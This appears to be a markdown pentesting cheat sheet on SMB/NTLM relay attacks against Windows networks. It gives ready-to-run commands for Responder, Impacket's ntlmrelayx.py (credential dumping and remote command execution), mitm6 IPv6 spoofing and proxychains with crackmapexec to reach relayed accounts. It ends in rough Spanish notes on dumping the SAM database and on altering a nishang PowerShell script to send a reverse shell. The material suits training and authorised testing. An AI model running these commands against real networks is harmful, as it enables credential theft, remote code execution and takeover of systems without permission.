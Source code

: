 SMB Relay is an attack that abuses the **Server Message Block (SMB)** protocol, which is commonly used in Windows networks to share files, printers, and other resources.

The attacker takes advantage of the way SMB authentication works.  
Instead of stealing a password, the attacker **impersonates the legitimate SMB server** and then **relays** the victim’s authentication attempt to a real server to gain access.

## Key Concepts

1. **SMB (Server Message Block) Protocol**:
    
    - A network protocol used for sharing files, printers, and serial ports.
    - Operates over TCP/IP using ports 139 and 445.
2. **NTLM (NT LAN Manager) Authentication**:
    
    - A suite of Microsoft security protocols intended to provide authentication, integrity, and confidentiality to users.
    - SMB often uses NTLM for authentication.
3. **Relay Attack**:
    
    - An attacker intercepts the authentication process.
    - Instead of cracking the intercepted credentials, the attacker relays them to another server to authenticate.

## Basic Attack Process

1. **Configuring Responder**:

- Modify the `Responder.conf` configuration file to enable or disable specific protocols. For SMB relay, ensure that SMB and HTTP are set to `On` and that `HTTP Server` is also enabled.
```bash
sudo nano /etc/responder/Responder.conf
```
- Responder is a tool used to capture SMB/NTLM authentication attempts from victims. It works by spoofing services like SMB, DNS, and HTTP to trick devices into sending authentication requests to the attacker.

```bash
responder -I eth0
```


2. **Setting Up SMB Relay with Impacket**:
- Create a `targets.txt` file that contains the IP addresses of the target servers you want to relay the credentials to.
- While the Responder is active use Impacket's **ntlmrelayx.py** script to relay the captured credentials to another target server.
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support
```
3. **Gaining access**:
Perform post-authentication actions:

- Dump sensitive information (e.g., SAM database, LSASS memory).
- Execute commands remotely.
- Create a reverse shell.
```bash
ntlmrelayx.py -tf targets.txt --dump
ntlmrelayx.py -tf targets.txt -c "whoami"
```



## IPv6 SMB Relaying Attack Process
IPv6 relaying leverages the fact that many modern networks have IPv6 enabled by default, even if administrators primarily use IPv4. Attackers exploit IPv6 name resolution to trick clients into authenticating against a rogue server controlled by the attacker, allowing NTLM credentials to be captured and relayed.

1. **Start mitm6:**

```bash
mitm6 -d <domain>
```

- This announces fake IPv6 RAs and provides a rogue DNS server.
- All domain-joined Windows clients will attempt to resolve domain resources via the attacker.

2. **Capture NTLM Authentication:**

- When a client attempts to access any SMB or HTTP resource in the domain, it authenticates using NTLMv2.
- The authentication request is sent to the attacker instead of the legitimate server.

3. **Relay with NTLMRelayx.py:**

- Relay these IPv6-captured NTLM credentials to a target system:
```bash
sudo ntlmrelayx.py -6 -tf targets.txt -socks -debug -smb2support
```

- The `-6` flag ensures the relay works over IPv6.
- `-smb2support` is crucial as modern Windows systems often enforce SMB2/3.
- `-socks` allows connecting through a SOCKS proxy to interact with the compromised account.

4. **Connecting to the Relayed Account:**

Once a relay has been successfully established, you can access the account using a **SOCKS proxy**:

```bash
proxychains crackmapexec smb <target-ip> -u <user> -p <anypassword> -d <domain>
```

---


## NTLMRelayx.py

**ntlmrelayx.py** is a powerful tool from the Impacket toolkit used for relaying captured NTLM authentication attempts to other network services. It is particularly effective in Windows Active Directory (AD) environments, allowing attackers to gain unauthorized access to network resources by relaying credentials.

#### Configuring Target List:

- Create a `targets.txt` file with the IP addresses or hostnames of the target AD servers you want to relay the captured credentials to.
```bash
192.168.1.10 
192.168.1.11
```

#### Starting NTLMRelayx.py:

- Use NTLMRelayx.py to relay captured NTLM authentication attempts to the targets listed in `targets.txt`.
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support
```
- Also, NTLMRelayx.py can be configured to execute a certain command of our election after pawning one of the target hosts. 
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "<command>"
```


nishang/shells invokepowershelltcp.ps1  anadir codigo malicioso para que mande una reverse a un puerto abierto


para ipv6 usar mitm6 -d dominio
hacer ntlmrelay indicando -6 ... -socks -debug -smb2support

luego con proxychains para poder conectarse via socks a la cuenta a la que se tiene relay hacer
proxychauns nxc smb target -u user -p cualquier coas -d dominio --sam 2>/dev/null